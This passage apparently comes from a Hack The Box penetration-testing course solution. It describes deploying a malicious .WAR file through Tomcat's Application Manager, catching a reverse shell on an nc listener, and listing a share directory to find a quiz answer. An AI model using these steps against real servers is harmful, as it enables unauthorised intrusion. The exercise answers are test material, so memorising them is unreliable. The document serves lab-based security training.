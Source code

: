 Students then need to upload and deploy the malicious `.WAR` file to the Application Manager:

![[HTB Solutions/CPTS/z. images/d4813c862194f77373738b946292610d_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/173b8d18cbab9b918e70183c38b66a9b_MD5.jpg]]

After deploying it, students need to click on it to notice that the reverse shell connection has been established on the `nc` listener:

![[HTB Solutions/CPTS/z. images/ca11fc7f01617659a5346eaad2819c12_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/8aa33d0931b518fcb59c57f914929a2d_MD5.jpg]]

```
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49799
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>
```

At last, students need to use the `dir` command on the `C:\Shares\` directory, finding the directory `dev-share`:

Code: shell

```shell
dir C:\Shares\
```

```
C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>dir C:\Shares\

dir C:\Shares\
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Shares

09/22/2021  12:22 PM    <DIR>          .
09/22/2021  12:22 PM    <DIR>          ..
09/22/2021  12:24 PM    <DIR>          dev-share
               0 File(s)              0 bytes
               3 Dir(s)  26,669,289,472 bytes free
```

Answer: `dev-share`

# The Live Engagement

## Question 3

### "What distribution of Linux is running on Host-2 (Format: distro name, all lower case)"
